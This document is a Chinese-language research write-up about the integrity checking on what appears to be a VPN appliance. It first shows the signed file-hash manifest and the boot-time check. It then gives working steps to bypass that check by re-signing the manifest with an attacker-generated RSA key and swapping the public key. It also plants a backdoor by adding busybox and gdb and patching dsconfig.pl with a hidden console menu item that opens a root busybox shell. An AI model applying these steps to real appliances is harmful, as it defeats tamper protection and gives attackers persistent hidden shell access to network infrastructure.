

# manifest

目录： /mnt/home/root/home/etc/manifest/

```sh
sysirq@sysirqMachine:/mnt/home$ ls -hl /mnt/home/root/home/etc/manifest/
total 5.3M
-rwxr-xr-x. 1 root root 1.9K Oct  6  2024 exclusion_list
-rwxr-xr-x. 1 root root 5.2M Oct  6  2024 manifest
-rwxr-xr-x. 1 root root  256 Oct  6  2024 manifest.1
-rwxr-xr-x. 1 root root  451 Oct  6  2024 manifest.2
```

scanner.py

```py
....
safeWrapper.run(["openssl", "dgst", "-sha512", verify_flag, key, "-signature", MANIFEST_INTEGRITY_FILE, INTEGRITY_FILE], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
....
```

```sh
sysirq@sysirqMachine:/mnt/home/root/home/etc/manifest$ openssl dgst -sha512 -verify manifest.2 -signature manifest.1 manifest
Verified OK
```

使用 SHA-512 算法和公钥 manifest.2 验证 manifest 文件的签名 manifest.1，确保文件未被篡改且签名有效。

然后 manifest 保存了系统文件的sha256值，eg:

```
sysirq@sysirqMachine:/mnt/home/root/home/etc/manifest$ head -n 20 manifest
/home/bin/getcap fd5292eed3328152f1ee1d2ea913cfc8bb77780d893f484a58a9948e53f976ee b
/home/bin/setcap 4bf3257949fcb4e7eed264955e98f06f66b3e737e3506f0a0168a78835d1294d b
/lib/libapol.so.4 5849603061ab5930887443a28c8f6da0324d5cf56d4e2bb4080640374dd30273 b
/lib/libauparse.so.0 d41b94ac39ce7af5e26571c5d5263416b345cc445396aeb084c743cb044d27bf b
/lib/libqpol.so.1 e55f432d3d00b3307c4c398af902cda400137b03f5f6ea114d62c1ac34533a52 b
/usr/libexec/selinux/hll/pp d0130684d0f3a50766b07f0ec39f4fa01b5b33a8c5ee1e31328212bfa19dbbae b
/usr/sbin/setfiles ff1b7774f3ffd401d5978cd3406e8a2a9d83a61a53c7f30216defcc9e14a80a7 b
/usr/sbin/sefcontext_compile 441fb4f092307c468ea4a1753d22d18932c883ea3ce28832a3c564971025db79 b
/bin/getenforce f66804b2208d45537b51c23d83a3a58e3981c86197180c70a34485308b7784ce b
/sbin/load_policy 9ecd6aca6580edb4c994faf6bd27c193a7be63cd6a9cacd05b107d09e3607e38 b
/usr/bin/chcon bcce738e52c2f0417db5bfbdd164ef95817aae0331bb724bbe35a67c0763a70a b
/sbin/semodule 1b4321ebeb725e45a7af83bc80a4d7034326eda86d3b795261300f52c0cc9d77 b
/sbin/sestatus 02ca053942cb5b75275c15d7d2a4dfe3d2b0c95c2d9e3248f38b81fc1c0636d6 b
/sbin/auditd 9a5a5369fea28fa1861711e89b52bdae3ca1514ef06af530cad7f0621f7e3c41 b
/sbin/fixfiles 257c095d181a00b0b61b82157d9e60e7d6b7f7bece86ab4bc785970075e400a2 b
/sbin/custom_file_contexts 3f23eb6e877dad6666b183a192549b40681ab9dca06f023be9034e4aad4b44d2 b
/sbin/change_labels_cgi.sh 56180be6f78f71df6d9e01db52c4e2b1233d1fdf6a9a9aff153e08b0c61f20ea b
/sbin/change_labels_web.sh 61bcb7ece7db9df55d6431c76e5a7d454256fd4c86aaaa7d5f186f601070c9c4 b
/usr/bin/chcon bcce738e52c2f0417db5bfbdd164ef95817aae0331bb724bbe35a67c0763a70a b
/lib/libustr-1.0.so.1 4d81cf368288490b3d3745b1d7c0aebbd3cf21a7beb07fdd1cb1d9f1108cc7cb b
```

# boot.pl -- 启动过程中的完整性检查



```perl
if (!DSSys::isProductZTA()) {
    DSSafe::system3 ("$dsinstall/bin/unzip", "$dsinstall/venv3/lib/python3.6/site-packages/scanner-0.1-py3.6.egg", "-d", "/tmp", ">/dev/null", "2>&1");
    if (-e "/tmp/scanner") {
        DSLog::Msg("boot", 30, "Starting system integrity scan");
        my $res = DSSafe::system("$dsinstall/venv3/bin/python /tmp/scanner/driver/scanmgr.py");
        my $checkbox = DSUtilConfig::getConfigValue("HOST_MANIFEST_INTEGRITY_VALIDATION");
        if ($checkbox eq "on") {
            my $exit_code = $res / 256;
            DSLog::Msg("boot", 30, "Manifest integrity validation checkbox value=$checkbox and ICT exit code=$exit_code");
            if ($exit_code != 0) {
                DSLog::Msg("boot", 10, "interrupting the system boot as Integrity Validation Failed");
                printAndLog("Interrupting the system boot as Integrity Validation Failed");

                #get ict snapshot file path from cache
                my $pathStrFromCache = "";
                my $ci_path = DSCacheItem->new("integrity_checker", "snapshot_path");
                $ci_path->getStr($pathStrFromCache);
                
                DSLog::Msg("boot", 10, "boot time ICT:: snapshot filepath from cache [$pathStrFromCache]");


                if( scpHelper($pathStrFromCache) == 0) {
                    DSLog::Msg("boot", 10, "boot time ICT:: clearning cache as SCP is succesfull");
                    #clear the snapshot path from cache
                    my $change = new DSCacheChanges();
                    $change->updateStr($ci_path, "");
                    $change->commit();
                }

       CHOICE:
                #check for rollback or factory reset
                my $ver = checkRollbackOrFactoryReset();

                my $secOption = "";
                if ($ver eq ROLLBACK) {
                    $secOption = "Rollback";
                } elsif($ver eq FACTORYRESET) {
                    $secOption = "Factory Reset";    
                } 

                my $msg = "\nSelect the appropriate action:";
                $msg .= "\nWarning: Opting for 'Continue to boot' may result in non-compliance with CCN Certification. The Compliance GUI checkbox will be disabled. You can re-enable it by navigating to Configuration>Security>Miscellaneous page.";
                $msg .= "\n1. Reboot";
                $msg .= "\t2. $secOption";
                $msg .= "\t3. Continue to boot";
                print $msg;

                my $choice = &DSReadLine::readline("\nChoice: ");
                chomp($choice); # remove trailing newline
                $choice =~ s/^\s+|\s+$//g; # remove leading and trailing whitespaces

                if($choice eq 1) {
                    DSLog::Msg("boot", 0, "boot time ICT:: Reboot option selected");
                    exit(2);
                } elsif ($choice eq 2) {
                    if($ver eq ROLLBACK) {
                        DSLog::Msg("boot", 0, "boot time ICT:: Rollback option selected");
                        exit(3);    
                    } elsif ($ver eq FACTORYRESET) {
                        DSLog::Msg("boot", 0, "boot time ICT:: Factory reset option selected");
                        exit(4);    
                    }
                } elsif($choice eq 3) {
                    DSLog::Msg("boot", 10, "boot time ICT:: Continue to boot option selected");
                    DSUtilConfig::setConfigValue("HOST_MANIFEST_INTEGRITY_VALIDATION", "off");
                } else {
                    #Invalid option selected  
                    printAndLog("\nInvalid option selected, please try again.");
                    goto CHOICE;  
                }
            }
        }
    }
}

```

# 绕过

```
cd /mnt/home/root/home/etc/manifest
```

```
# 生成私钥
openssl genpkey -algorithm RSA -out private_key.pem

# 从私钥中提取公钥
openssl rsa -pubout -in private_key.pem -out public_key.pem

openssl dgst -sha512 -sign private_key.pem -out file.txt.sig file.txt
```

- `-sha512`：指定使用的哈希算法。
- `-sign private_key.pem`：使用私钥进行签名。
- `-out file.txt.sig`：签名输出到 `file.txt.sig`。

```sh
#!/bin/bash

openssl genpkey -algorithm RSA -out private_key.pem
openssl rsa -pubout -in private_key.pem -out public_key.pem
openssl dgst -sha512 -sign private_key.pem -out file.txt.sig manifest
rm private_key.pem
mv public_key.pem manifest.2 
mv file.txt.sig manifest.1
openssl dgst -sha512 -verify manifest.2 -signature manifest.1 manifest
```

# 后门植入

下载busybox、gdb到bin目录中，

向manifest中添加busybox、gdb的sha256值

修改home/bin/dsconfig.pl

```perl
use constant MENU_ZTA_MAINTENANCE    => 4;
use constant MENU_ZTA_REGISTER       => 5;
use constant MENU_ZTA_REGISTER_ERROR => 6;
use constant MENU_ZTA_BUSYBOX           => 23;
................................................
use constant MENU_EXIT_CONFIG       => 11;
use constant OPTION_DISABLE_SRC_REST => 12;
use constant MENU_SECURITY       => 13;
use constant MENU_KERNEL_LOG_LEVEL => 99;
use constant MENU_BUSYBOX           => 23;
................................................

        if (!DSSys::isProductZTA()) { 
        print "   ".MENU_NETWORK.          ". Network Settings and Tools\n";
        print "   ".MENU_CREATE_ADMIN.     ". Create admin username and password\n";
        print "   ".MENU_LOGS_STATUS.      ". Display log/status\n";
        print "   ".MENU_RESTART.          ". System Operations\n";
        print "   ".MENU_TOGGLE_PWD.       ". Toggle password protection for the console $protectedMsg\n";
        print "   ".MENU_CREATE_ADMIN_SESS.". Create a Super Admin session\n";
        print "   ".MENU_MAINTENANCE.      ". System Maintenance\n";
        print "   ".MENU_BUSYBOX.      	   ". Run BusyBox\n";
................................................
            print "   ".MENU_ZTA_NETWORK.       ". Network Settings and Tools\n";
            print "   ".MENU_ZTA_LOGS_STATUS.   ". Display log/status\n";
            print "   ".MENU_ZTA_RESTART.       ". System Operations\n";
            print "   ".MENU_ZTA_MAINTENANCE.   ". System Maintenance\n";
            print "   ".MENU_ZTA_BUSYBOX.       ". Run BusyBox\n";
................................................
    # Redisplay if nothing was entered
    next if ($choice eq "");
    if (!DSSys::isProductZTA()) { 
        # Run submenu, and optionally (if it returns something), run it again.
        $choice = networkSettingsTools() if ($choice == MENU_NETWORK);
        $choice = adminPassword() if ($choice == MENU_CREATE_ADMIN);
        $choice = displayLogOrStatus() if($choice == MENU_LOGS_STATUS);
        $choice = systemOp( $dsproduct ) if($choice == MENU_RESTART);
        $choice = toggleConsolePasswordProtection() if($choice == MENU_TOGGLE_PWD);
        $choice = recoverLogon() if($choice == MENU_CREATE_ADMIN_SESS);
        $choice = systemMaintenance() if ($choice == MENU_MAINTENANCE);
        $choice = resetSSL() if ($choice == MENU_RESET_SSL);
        $choice = fipsOptions() if ($choice == MENU_FIPS && DSFips::getType() == $DSFips::SCA6000);
        $choice = AdminUI::disableSourceIPRestriction() if ($choice == OPTION_DISABLE_SRC_REST);
        $choice = enableDisableKernelLogs() if ($choice == MENU_KERNEL_LOG_LEVEL);
        $choice = runBusyBox() if ($choice == MENU_BUSYBOX);
    } else {
        # Run submenu, and optionally (if it returns something), run it again.
        $choice = networkSettingsTools() if ($choice == MENU_ZTA_NETWORK);
        $choice = displayLogOrStatus() if ($choice == MENU_ZTA_LOGS_STATUS);
        $choice = systemOp( $dsproduct ) if ($choice == MENU_ZTA_RESTART);
        $choice = systemMaintenance() if ($choice == MENU_ZTA_MAINTENANCE);
        $choice = runBusyBox() if ($choice == MENU_ZTA_BUSYBOX);
        if (DSZTAUtil::getRegistrationStatus() != 1) {
            $choice = reRegister() if ($choice == MENU_ZTA_REGISTER);
            $choice = DSZTAUtil::viewRegistrationError() if ($choice == MENU_ZTA_REGISTER_ERROR);
        }

    }
................................................
sub runBusyBox {
	system ("/bin/busybox sh");
	return 23;
}
```

修改dsconfig.pl的 sha256值
